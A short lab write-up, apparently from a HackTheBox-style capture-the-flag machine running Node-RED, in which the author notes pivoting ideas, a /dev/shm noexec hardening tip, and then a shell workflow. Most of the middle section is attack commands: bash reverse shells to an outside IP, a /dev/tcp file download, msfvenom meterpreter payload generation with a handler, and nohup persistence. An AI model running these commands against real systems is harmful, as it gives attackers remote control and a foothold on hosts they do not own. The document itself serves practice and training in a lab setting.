 After researching and making go compilation and doing some of [[Hololive-Writeup]]. With shell stability in mind after returning to this machine for the third time, although I will do it this way just for my own peace on mind after, I want recall proxychaining and using chisel to the port forward to scan the subset with nmap. If we had NC we could do port scanning like this: `nc -zv 172.18.0.1 1-65535`. One thing to consider is that the noexec flag has been set on /dev/shm 

![](noexeconshm.png)

[/dev/shm is a common directory for marshalling and operating from in Linux for attackers as it directory that is a tempory file storage that uses RAM for the backing store](https://superuser.com/questions/45342/when-should-i-use-dev-shm-and-when-should-i-use-tmp. It is flushed leaving no trace of execution or what was put in that directory. It is also faster as than disk storage. For hardening
```bash
# To check flags 
mount | grep shm 
# Mitigation
sudo mount -o remount,noexec /dev/shm
```

Ippsec's `cat` file transfer is OP. WOW on the cat file transfer, I have not seen this on any OSCP cheatsheets!
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /tmp/LinEnum.sh"
```

With the new and improved [Hacktools](https://github.com/LasCC/Hack-Tools) tried meterpreter https and the nice copy and paste workflow... 
```bash
# Initial shell from Node RED
nc -lvnp 8000
# call 
bash -c 'bash -i >& /dev/tcp/10.10.14.132/8002 0>&1' &
# Beware it does not auto update fields!
msfvenom -p linux/x64/meterpreter_reverse_https LHOST=10.10.14.92 LPORT=4444 -f elf -o met

msfconsole -qx "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter_reverse_https; set LHOST 10.10.14.92; set LPORT 4444; run"

nc -lvnp  9696 < met
# On Node RED:
bash -c "cat < /dev/tcp/10.10.14.132/9696 > /tmp/met"
# chmod and use nohup to persist after ctrl+c the shell to get it back again
chmod +x met
nohup ./met
[Ctrl + c]
# Restart secondardy shell from the initial
bash -c 'bash -i >& /dev/tcp/10.10.14.132/8002 0>&1' &
# Meterpreter
meterpreter > shell

```

Previous days LinEnum finds Docker
![docker](weareindocker.png)
